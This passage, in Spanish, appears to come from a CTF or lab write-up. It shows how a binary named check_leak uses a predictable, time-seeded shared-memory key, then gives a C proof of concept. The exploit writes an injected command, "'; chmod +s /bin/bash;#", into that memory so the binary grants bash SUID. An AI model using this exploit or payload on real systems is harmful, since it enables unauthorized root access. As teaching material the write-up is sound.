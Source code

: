 
La función genera una clave aleatoria con `rand() % 0xfffff` y usa esta clave para crear un segmento de memoria compartida de tamaño 0x400 bytes.

```c
iVar2 = rand();
__shmid = shmget(iVar2 % 0xfffff, 0x400, 0x3b6);
```

el cual podemos calcular y escribir en ella si se hace en bucle a través de ese segundo de espera entre las dos funciones 

## POC

Para inyectar el comando que nos permitirá cambiar de permisos a la bash será el siguiente, este script en C se ejecutara en forma de bucle para que al momento de usar el binario check_leak podamos escribir en la memoria compartida y así darle permisos SUID  a la bash

```c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <string.h>
 
int main() {
    unsigned int v4 = (unsigned int)time(NULL);
    srand(v4);
 
   
    key_t key = rand() % 0xFFFFF;
 
   
    int shmid = shmget(key, 0x400, IPC_CREAT | 0666);
    if (shmid < 0) {
        perror("shmget failed");
        return 1;
    }
 

    char *share_memory = (char *)shmat(shmid, NULL, 0);
    if (share_memory == (char *)-1) {
        perror("shmat failed");
        return 1;
    }
 
   
    const char *message = "Leaked hash detected > '; chmod +s /bin/bash;#";
    snprintf(share_memory,0x400,"%s", message ); 
 
  
    printf("Message in shared memory: %s\n", share_memory);
 
   
    if (shmdt(share_memory) == -1) {
        perror("shmdt failed");
        return 1;
    }
 
    return 0;
}
```
